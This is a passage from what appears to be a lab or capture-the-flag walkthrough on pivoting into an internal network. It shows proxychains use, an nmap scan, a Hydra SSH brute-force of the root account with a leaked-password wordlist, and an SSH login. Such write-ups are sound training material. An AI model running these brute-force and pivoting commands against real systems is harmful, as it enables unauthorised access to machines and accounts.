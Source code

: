 	- Now, execute the exploit!

#### 18. From another terminal tab, check whether the proxy is set to that port 9050 using:

		# netstat -tpln

![](/assets/img/1616.png)

	- Now, you can see that any connection through port 9050 will be via proxychains which pretty much bounces through multiple proxies before reaches the machine on the internal network.

#### 19. Now, you can do the NMAP scan with proxychains as well.

		# proxychains nmap -sT -Pn {target-ip}
		- Since we are using proxychains, we gotta use the TCP scan and since we know that the machine we're about to scan is alive, we should use "-Pn" flag!

<u>Outcome:</u>

![](/assets/img/1617.png)

	- Since that 'SSH' is available on this machine inside the internal network, we can use Hydra to bruteforce an account to be able to access this machine.

#### 20. Using Hydra to bruteforce an account in the internal network:

		# proxychains hydra {target-ip-internal-network} ssh -t 4 -l root -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-40.txt -f -V
		- Use the wordlists that is either on Desktop or at /usr/share/seclists!

#### 21. Logging into the internal machine:

		# proxychains ssh root@{target-ip-internal-network}

		- Then enter the found password from Hydra.



